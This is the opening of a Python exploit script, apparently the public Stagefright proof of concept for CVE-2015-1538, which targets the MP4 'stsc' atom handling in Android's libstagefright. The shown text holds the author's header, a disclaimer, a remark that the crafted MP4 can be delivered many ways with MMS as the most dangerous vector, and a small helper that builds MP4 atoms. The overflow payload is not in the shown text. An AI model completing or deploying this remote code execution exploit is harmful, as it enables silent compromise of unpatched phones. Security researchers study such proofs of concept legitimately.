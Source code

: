 # 2015_1538
#!/usr/bin/env python
# Joshua J. Drake (@jduck) of ZIMPERIUM zLabs
# Shout outs to our friends at Optiv (formerly Accuvant Labs)
# (C) Joshua J. Drake, ZIMPERIUM Inc, Mobile Threat Protection, 2015
# www.zimperium.com
#
# Exploit for RCE Vulnerability CVE-2015-1538 #1
# Integer Overflow in the libstagefright MP4 'stsc' atom handling
#
# Don't forget, the output of "create_mp4" can be delivered many ways!
# MMS is the most dangerous attack vector, but not the only one...
#
# DISCLAIMER: This exploit is for testing and educational purposes only. Any
# other usage for this code is not allowed. Use at your own risk.
#
# "With great power comes great responsibility." - Uncle Ben
#

import struct
import socket


#
# Creates a single MP4 atom - LEN, TAG, DATA
#
def make_chunk(tag, data):
    if len(tag) != 4:
        raise 'Yo! They call it "FourCC" for a reason.'
    ret = struct.pack('>L', len(data) + 8)
    ret += tag
    ret += data
    return ret

